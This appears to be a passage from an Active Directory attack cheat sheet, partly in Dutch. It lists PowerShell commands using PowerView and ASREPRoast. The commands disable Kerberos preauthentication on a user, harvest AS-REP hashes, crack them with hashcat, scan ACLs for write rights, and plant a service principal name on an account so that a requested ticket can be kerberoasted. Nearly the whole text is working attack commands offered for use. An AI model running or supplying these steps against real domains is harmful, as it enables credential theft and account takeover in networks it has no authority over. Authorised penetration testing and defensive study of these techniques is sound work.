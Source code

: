 #### Set preauth not required
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```

#### Request encrypted AS-REP
```
. ./ASREPRoast.ps1
Get-ASREPHash -Username <username> -Verbose
```

#### Enumerate all users with kerberos preauth disabled and request a hash
```
Invoke-ASREPRoast -Verbose
Invoke-ASREPRoast -Verbose | fl
```

#### Crack the hash with hashcat
Edit the hash by inserting '23' after the $krb5asrep$, so $krb5asrep$23$.......
```
Hashcat -a 0 -m 18200 hash.txt rockyou.txt
```

## Set SPN
Met genoeg rechten (GenericALL en GenericWrite) is het mogelijk om zelf de Service Principle Name attribute aan een gebruiker toe te voegen. Deze kan dan worden gekraakt met behulp van kerberoasting.

#### Enumerate permissions for group on ACL
```
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”}
Invoke-ACLScanner -ResolveGUIDS | Where-Object {$_.IdentityReference -match “<groupname>”} | select IdentityReference, ObjectDN, ActiveDirectoryRights | fl
```

#### Check if user has SPN
```
. ./Powerview_dev.ps1
Get-DomainUser -Identity <username> | select samaccountname, serviceprincipalname
```

of

```
Get-NetUser | Where-Object {$_.servicePrincipalName}
```

#### Set SPN for the user
```
. ./PowerView_dev.ps1
Set-DomainObject -Identity <username> -Set @{serviceprincipalname=’ops/whatever1’}
```

#### Request a TGS
```
Add-Type -AssemblyName System.IdentityModel 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "ops/whatever1"
```
